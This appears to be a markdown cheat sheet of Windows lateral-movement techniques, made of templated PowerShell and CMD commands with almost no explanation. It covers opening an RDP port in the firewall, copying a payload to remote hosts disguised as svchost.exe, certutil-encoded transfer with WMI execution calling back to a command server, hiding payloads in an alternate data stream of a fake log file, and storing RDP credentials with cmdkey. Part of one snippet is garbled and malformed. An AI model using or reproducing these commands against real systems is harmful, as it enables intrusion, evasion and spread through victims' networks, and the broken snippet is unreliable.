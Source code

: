 
# Lateral Movement Techniques (Windows PowerShell + CMD)

---

## 🔹 1. Change RDP Port & Allow via Firewall

**Technique:** Modify the RDP port and configure firewall rules.

```bash
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value 3489
New-NetFirewallRule -DisplayName 'RDPPORTLatest-TCP-In' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 3489
```

```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 3489 /f 
netsh advfirewall firewall add rule name="RDPPORTLatest-TCP-In" dir=in action=allow protocol=TCP localport=3489
```

---

## 🔹 2. Copy and Execute File Remotely with PowerShell Job

**Technique:** Remote file copy and execution using PowerShell job and session.

```bash
$job = Start-Job -ScriptBlock {
  $username = "#{domain.user.name}";
  $password = "#{domain.user.password}";
  $secstr = New-Object -TypeName System.Security.SecureString;
  $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)};
  $cred = New-Object -Typename System.Management.Automation.PSCredential -Argumentlist $username, $secstr;
  $session = New-PSSession -ComputerName "#{remote.host.name}" -Credential $cred;
  $location = "#{location}";
  $exe = "#{exe_name}";
  Copy-Item $location -Destination "C:\Users\Public\svchost.exe" -ToSession $session;
  Start-Sleep -s 5;
  Remove-PSSession -Session $session;
};
Receive-Job -Job $job -Wait;
```

---

## 🔹 3. Transfer and Execute Encoded Payload via Certutil

**Technique:** Base64 encode transfer and decode + execution remotely using `certutil`.

```bash
certutil -encode #{location} C:\users\public\com.crt | out-null
invoke-command #{remote.host.fqdn} -scriptblock {
  certutil -decode \\#{local.host.fqdn}\c$\users\public\com.crt #{location};
  invoke-wmimethod -computername . -class win32_process -name Create -argumentlist "C:\users\public\payload.exe -server #{server} -group red"
}
```

---

## 🔹 4. ADS (Alternate Data Stream) + WMI Execution

**Technique:** Transfer payload into alternate data stream, execute via WMI remotely.

```bash
esentutl.exe /y #{location} /d \\#{remote.host.fqdn}\c$\users\public\splunk.log:#{exe_name}
invoke-command #{remote.host.fqdn} -scriptblock {
  wmic process call create "C:\users\public\splunk.log:#{exe_name} -server #{server} -group red"
}
```

---

## 🔹 5. RDP with Domain Credentials and Auto Logon

**Technique:** Auto-authenticate to RDP using stored credentials.

```bash
if((Get-CIMInstance -Class Win32_ComputerSystem) { ; } else {Write-Host Joining this computer to a domain must be done manually};

$Server=#{logonserver}
$User = Join-Path
$Password="#{password}"
cmdkey /generic:TERMSRV/$Server /user:$User /pass:$Password
mstsc /v:$Server
echo "RDP connection established"
```

---

## 🔹 6. Invoke Payload Remotely using PowerShell Session & Start-Job

**Technique:** Remote job execution using PSSession and credential object.

```bash
$username = "#{domain.user.name}";
$password = "#{domain.user.password}";
$secstr = New-Object -TypeName System.Security.SecureString;
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)};
$cred = New-Object -Typename System.Management.Automation.PSCredential -Argumentlist $username, $secstr;
$session = New-PSSession -ComputerName #{remote.host.name} -Credential $cred;
Invoke-Command -Session $session -ScriptBlock {
  start-job -scriptblock {
    cmd.exe /c start C:\Users\Public\svchost.exe -server #{server}
  }
};
Start-Sleep -s 5;
Remove-PSSession -Session $session;
```
